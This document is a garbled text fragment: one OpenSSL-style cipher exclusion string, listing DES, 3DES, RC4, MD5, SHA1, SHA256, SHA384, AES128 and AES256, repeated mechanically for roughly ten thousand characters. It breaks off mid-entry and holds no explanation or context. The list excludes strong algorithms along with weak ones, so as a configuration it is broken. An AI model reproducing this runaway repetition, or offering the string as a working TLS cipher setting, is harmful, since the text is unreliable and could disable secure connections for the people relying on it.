!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128